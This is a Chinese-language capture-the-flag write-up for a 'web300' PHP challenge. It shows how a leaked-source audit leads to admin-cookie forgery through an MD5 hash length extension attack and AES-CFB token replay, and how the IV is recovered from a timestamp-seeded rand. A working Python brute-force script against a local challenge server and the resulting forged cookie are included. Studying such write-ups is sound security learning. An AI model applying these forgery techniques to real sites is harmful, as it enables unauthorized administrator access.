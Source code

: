 
### web300 writeup 

在 www.tar.gz 下载到源码,进行审计:
发现flag已经加密了

```php
require_once('encrypt.php');
file_put_contents('./backup.txt', token_encrypt(file_get_contents('./flag.txt')));
```
由于不知道key,所以要想解密需要用管理员身份:
```php
if ($admin) {
    $text = '';
    if (isset($_POST['do'])) {
        switch ($_POST['do']) {
            case 'encrypt':
                $text = bin2hex(mcrypt_encrypt(MCRYPT_RIJNDAEL_128, get_key(), hex2bin($_POST['text']), MCRYPT_MODE_CFB, hex2bin($_POST['iv'])));
                break;
            case 'decrypt':
                $text = bin2hex(mcrypt_decrypt(MCRYPT_RIJNDAEL_128, get_key(), hex2bin($_POST['text']), MCRYPT_MODE_CFB, hex2bin($_POST['iv'])));
                break;
        }
    }
}
```
所以思路是用重放攻击来伪造管理员身份.
注册一个用户名为 `$user|1|$hash` 的账号,然后用它的身份登陆(登陆不会成功),但是会产生cookie.截取cookie合适的长度,得到`$user|1|$hash`的加密结果,伪造管理员身份.

但是 `$user|1|$hash` 中的`$hash` 没有办法知道,并且在登陆的时候做了验证.
```php
if (isset($_COOKIE['token'])&&isset($_COOKIE['sign'])) {
	$sign = $_COOKIE['sign'];
	$token = $_COOKIE['token'];
	$arr = explode('|', token_decrypt($token));

	if (count($arr) == 3) {
		if (md5(get_indentify().$arr[0]) === $arr[2] && $sign === $arr[2]) {
			$user = $arr[0];
			$admin = (int)$arr[1];
		}
	}
}
```
来看 `sign`和`token` 的产生过程:
```php
$user = $_POST['user'];
				// get_indentify() 获取10位的key,做一个身份签名,防止身份伪造
				
				$md5 = md5(get_indentify().$user);
				$admin = 0;
				// $token = token_encrypt("$user|$admin|$md5");
				$token = token_encrypt("$user|$admin|$md5");
				setcookie('sign',$md5,time()+5*60,"/",'',false,true);
				setcookie('token',$token,time()+5*60,"/",'',false,true);
```

根据`$sign = md5(get_indentify().$user)`知道,这里$sign可以用hash长度扩展攻击,
并且根据注释知道前缀是10位的.

再构造用户名的时候需要注意,因为在加密前进行了位扩展
```php
function pad($str) {
	return $str . str_repeat(chr(BS - strlen($str) % BS), (BS - strlen($str) % BS));
}
```
不是16字节的倍数,就补够16的字节的倍数,如果是16字节的倍数,就会在后面再加16字节,这里构造的用户名不应该是16字节的整数倍,而应该是16字节的倍数减1位.
因为需要hash扩展攻击,需要的长度比较多,构造79位的可能容不下hash扩展攻击的冗余字节,所以我这里构造95位的用户名.

解题:
1. 注册一个用户名 wonderkun 获取签名: ee11925035598658e4ea6364806d6796

2. 用户名是9位的,需要扩展的位数为 95-32-3-9=51,所以需要扩展51位, append 的数据随意,只要凑够51位就可以

```bash 
$ python md5pad.py  ee11925035598658e4ea6364806d6796 tadmin 19 
Payload:  '\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x98\x00\x00\x00\x00\x00\x00\x00tadmin'
Payload urlencode: %80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%98%00%00%00%00%00%00%00tadmin
md5: fe46d7d8924ec23d69f8d01432de41aa
```
3. 所以需要构造的用户名为 `wonderkun%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%98%00%00%00%00%00%00%00tadmin|1|fe46d7d8924ec23d69f8d01432de41aa`

用这个账号注册一个用户,然后用这个账号登陆获取cookie的token的前190位,就是这95的加密结果,但是95位是需要进行pad的,扩展了一位,所以最后一位的加密结果需要爆破出来:

给出了 python的poc:

```python
#!/usr/bin/python
# coding:utf-8 


import requests

def login():
    url = "http://127.0.0.1:4444/index.php?action=login"
    data = "user=wonderkun%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%98%00%00%00%00%00%00%00tadmin|1|fe46d7d8924ec23d69f8d01432de41aa&pwd=1"
    header = {
        "Content-Type":"application/x-www-form-urlencoded"
    }
    
    res = requests.post(url,data=data,allow_redirects=False,proxies={"http":"127.0.0.1:8080"},headers=header)
    return res.cookies['token'][:190]
def getAdminToken(token):
    randstr="0123456789abcdef"
    for i in randstr:
        for j in randstr:
            # token = token+i+j
            url="http://127.0.0.1:4444/index.php?action=home"
            headers = {
                'Cookie':'sign='+'fe46d7d8924ec23d69f8d01432de41aa'+';'+'token='+token+i+j
            }                    
            # print url
            proxy = {"http":"127.0.0.1:8080"}
            res=requests.get(url,headers=headers,proxies=proxy)
            if "User" in res.text:
                print "[*] Cookie:",headers['Cookie']
                return
            else:
                print  "[*] failed"
                # print res.text

if __name__ == "__main__":
    tokenPre=login()
    print tokenPre
    getAdminToken(tokenPre)

```
获取一个可用的cookie,就可以获取一个管理员身份:
```
[*] Cookie: sign=fe46d7d8924ec23d69f8d01432de41aa;token=2a3654363a57be283fbfc6d730c55c646cfe9b1a04c1ff10aa80327828ab6ca990b95fe6a00a9f6494abb1d47321643ed79e8c6b33bb6074e91a5d5be9f92fb5933500e7859129b4dc2c3f99b7738fa4dfed60e2fc8cb34f959e4287ce53185c
```
接下来获取$iv,看backup.txt的时间,
```
Apr 12 09:26  转化为时间戳为: 1491960409 
```
获取$iv:

** 注意这里要用64的linux操作系统产生 iv,windows和linux产生的随机序列是不一样的 **

```php
function getRandChar($length){
	$str = null;
	$strPol = "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz";
	for($i=0;$i<$length;$i++){
		$n = rand(0, strlen($strPol) - 1);
		$str.=$strPol[$n];
	}
	return $str;
}
srand( 1491960409/ 300);
$iv = getRandChar(16);
echo bin2hex($iv);
echo "\n";
```
获取$iv = 6f39784745597a644b52354a50497976
然后解密:backup.txt的内容:
得到flag: flag{660b7b8c06e3150d174a3ec9fcd7ab9d}



### 别的解题思路的wp
- [ ] [chamd5安全团队](http://mp.weixin.qq.com/s?__biz=MzIzMTc1MjExOQ==&mid=2247483908&idx=1&sn=66a6fb3bdd5bc391791db02f0ced5456&chksm=e89e2adcdfe9a3ca236b95c00a7362bfd3908d3ef69a207efd544e1c9dcc385f5d767605d921&mpshare=1&scene=23&srcid=0417hAKjzBELkY81prwMPZO9#rd)
- [ ] [墨麒麟安全实验](http://www.ifuryst.com/archives/AES_CFB_Attack.html)